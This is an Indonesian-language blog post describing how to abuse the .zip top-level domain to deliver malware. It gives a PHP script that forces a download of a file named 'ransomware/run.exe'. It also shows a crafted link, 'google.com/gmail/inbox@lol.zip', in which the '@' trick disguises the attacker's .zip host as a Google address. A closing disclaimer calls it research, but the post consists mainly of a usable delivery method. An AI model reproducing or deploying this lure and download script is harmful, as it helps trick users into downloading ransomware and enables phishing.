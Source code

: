```yaml
---

layout: post

title: "Exploit Google’s .zip TLD Untuk Menyebarkan Virus dan Malware"

date: 2023-05-18 14:11:00 +0700

category: blogs

---
```

# Exploit Google’s .zip TLD Untuk Menyebarkan Virus dan Malware

Selamat datang! 
Pertama, saya akan membahas tentang domain .zip. Domain .zip adalah salah satu ekstensi domain dari Google Domains.

### Risk
Untuk menggunakan domain ini hanya menggunakan cara URL Format Bypass dengan seolah olah ini adalah URL yang valid.

Misal saya mempunyai sebuah virus yang berakhiran `.exe` saya akan membuat sebuah script PHP atau Python dengan sebagai contoh script :

```php
<?php
if(isset($_GET['true']))
{
$exe = "run.exe";
$dir = "ransomware/";
$file = $dir . $exe;

if (file_exists($file))
    {
    header('Content-Description: File Transfer');
    header('Content-Type: application/octet-stream');
    header('Content-Disposition: attachment; filename='.basename($file));
    header('Expires: 0');
    header('Cache-Control: must-revalidate');
    header('Pragma: public');
    header('Content-Length: ' . filesize($file));
    ob_clean();
    flush();
    readfile($file);
    exit;
    }
}
?>
```
dan saya deploy misal di domain `lol.zip`.
lalu pada URL saya memakai URL dari Google.com
Contoh:
`https://www.google.com/gmail/inbox@lol.zip`
dan hasil nya akan langsung mendownload file yang saya sudah siapkan di server pada domain `lol.zip`.

### Penutup

Untuk kali ini saya tidak merekomendasikan menggunakan cara ini untuk kejahatan dan lain nya.
Karena ini hanya untuk research dan pembelajaran.


Terima Kasih.
